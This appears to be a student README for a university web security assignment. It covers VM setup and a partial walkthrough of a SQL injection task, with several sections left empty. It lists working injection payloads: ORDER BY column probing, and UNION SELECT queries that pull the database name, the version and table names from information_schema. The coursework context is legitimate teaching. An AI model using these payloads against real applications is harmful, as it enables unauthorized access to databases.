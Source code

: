 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
#### 2.2.1.2
#### 2.2.1.3

#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
'''
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
'''
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `DataBase Name`
'''
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
'''

##### 3. Use the following command to get the `DataBase Version`
'''
' UNION SELECT NULL,NULL,NULL,version(); -- 
'''
Or use the following alternative command
'''
' UNION SELECT NULL,NULL,NULL,@@version; -- 
'''

##### 4. Use the following command to get all `Table` in the DataBase
'''
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
'''

##### 5. NEED 2.2.1.3 HASH to Finish

## Test MP2
Check `MP2 WebSec PDF`

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]
